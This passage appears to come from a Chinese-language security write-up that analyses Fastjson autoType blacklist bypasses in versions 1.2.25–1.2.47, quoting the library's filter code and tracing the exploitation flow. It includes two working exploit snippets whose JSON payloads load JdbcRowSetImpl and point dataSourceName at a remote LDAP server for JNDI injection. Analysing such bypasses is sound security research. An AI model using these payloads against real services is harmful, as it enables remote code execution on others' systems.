org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

- 当`autoTypeSupport`开启时

  ```java
  //1.2.28黑名单指定字段
  if (autoTypeSupport || expectClass != null) {
          for (int i = 0; i < acceptList.length; ++i) {
              String accept = acceptList[i];
              if (className.startsWith(accept)) {
                  //加载白名单中的类，不可控
                  return TypeUtils.loadClass(typeName, defaultClassLoader);
              }
          }
   
          for (int i = 0; i < denyList.length; ++i) {
              String deny = denyList[i];
              //过滤黑名单中的类
              if (className.startsWith(deny)) {
                  throw new JSONException("autoType is not support. " + typeName);
              }
          }
      }
  
  //1.2.47黑名单指定hash
  if (autoTypeSupport || expectClass != null) {
              long hash = h3;
              for (int i = 3; i < className.length(); ++i) {
                  hash ^= className.charAt(i);
                  hash *= PRIME;
                  if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                      clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                      if (clazz != null) {
                          return clazz;
                      }
                  }
                  if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                      throw new JSONException("autoType is not support. " + typeName);
                  }
              }
          }
  ```

- 当`autoTypeSupport`关闭时

  ```java
  //1.2.28黑名单指定字段
  if (!autoTypeSupport) {
          for (int i = 0; i < denyList.length; ++i) {
              String deny = denyList[i];
              //先黑名单过滤
              if (className.startsWith(deny)) {
                  throw new JSONException("autoType is not support. " + typeName);
              }
          }
          for (int i = 0; i < acceptList.length; ++i) {
              String accept = acceptList[i];
              if (className.startsWith(accept)) {
                  //再加载白名单的类
                  clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
   
                  if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                      throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                  }
                  return clazz;
              }
          }
      }
  
  //1.2.47
  if (!autoTypeSupport) {
              long hash = h3;
              for (int i = 3; i < className.length(); ++i) {
                  char c = className.charAt(i);
                  hash ^= c;
                  hash *= PRIME;
  
                  if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                      throw new JSONException("autoType is not support. " + typeName);
                  }
  
                  if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                      if (clazz == null) {
                          clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                      }
  
                      if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                          throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                      }
  
                      return clazz;
                  }
              }
          }
  ```

#### 1.2.25 - 1.2.41绕过

开启`autoTypeSupport`，传入的恶意类格式为LCLASSPATH;

这里的EXP为

```java
public class JdbcRowSetImplExp {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://192.168.13.1:1389/wbidzf\", \"autoCommit\":false}";
        JSON.parseObject(payload);
    }
}
```

下面分析流程

前面流程不变主要是`autoTypeSupport`中会进入第一个过滤检测



传入的类是`Lcom.sun.rowset.JdbcRowSetImpl;`不在黑名单中，然后下面直接进行Java类加载，若关闭就会报异常



最后会在类加载中去掉L和;然后恶意类代入后面的流程，进行赋值调用



#### 1.2.25-1.2.47通杀绕过

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport不能成功触发，因为通过Class类加载恶意类时会进入第一个过滤判断导致抛出异常

- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

  ```java
  if (autoTypeSupport || expectClass != null) {
      long hash = h3;
      for (int i = 3; i < className.length(); ++i) {
          hash ^= className.charAt(i);
          hash *= PRIME;
          // 1. 如果在白名单（acceptHashCodes），直接加载类
          if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
              clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
              if (clazz != null) {
                  return clazz;
              }
          }
          // 2. 如果在黑名单（denyHashCodes），且不在缓存（mapping）里，抛出异常，在第一部分已经将恶意类加载进缓存了所以第一次过滤始终都可以绕过
          if (Arrays.binarySearch(denyHashCodes, hash) >= 0 
                  && TypeUtils.getClassFromMapping(typeName) == null) {
              throw new JSONException("autoType is not support. " + typeName);
          }
      }
  }
  ```

  

漏洞点出现在`ParserConfig.checkAutoType`中，会从缓存中加载类，所以要将恶意类放入缓存中

```java
Class<?> clazz = TypeUtils.getClassFromMapping(typeName);

//TypeUtils类中
public static Class<?> getClassFromMapping(String className) {
    //可以从缓存中获取类
    return mappings.get(className);
}
```

而在`TypeUtils.loadClass`中有放入缓存的操作



接下来就要找可控`TypeUtils.loadClass`并能放入恶意类的地方，找到`MiscCodec.deserialze`，当传入Class类即可触发该方法，而strVal既是放入恶意类的地方，参数名为val



传入Class.class调用的就是MiscCodec反序列化器



EXP

```java
 public static void main(String[] args) {
        String payload = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.13.1:1389/wbidzf\", \"autoCommit\":false}\"}";
        JSON.parseObject(payload);
    }
```

调用流程

- 扫描第一部分JSON数据时checkAutoType返回Class类

  

- 然后通过MiscCodec解析Class类

  

  - 提取键值val给objVal赋值

    

  - objVal给strVal赋值，strVal中传入恶意类

    

  - 满足条件调用`TypeUtils.loadClass`将恶意类放入缓存

    

    

- 扫描第二部分JSON数据，也就是第二次调用`checkAutoType`时会从缓存中查出恶意类并返回进入后续流程，此版本没开启AutoTypeSupport跳过第一个过滤，然后在第二个过滤前就查出类并返回了，也就跳过了第二次过滤

  
